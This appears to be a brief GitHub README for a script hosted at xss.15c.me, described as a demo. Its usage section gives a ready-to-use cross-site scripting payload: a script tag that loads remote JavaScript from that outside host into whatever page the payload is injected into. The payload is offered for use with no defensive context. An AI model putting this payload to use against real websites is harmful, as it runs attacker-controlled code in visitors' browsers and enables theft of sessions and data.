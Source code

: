 # xss.15c.me

Just a simple script fpr demo purposes

## Usage

Just include this script in your XSS payload:

```html
<script src=https://xss.15c.me></script>
```

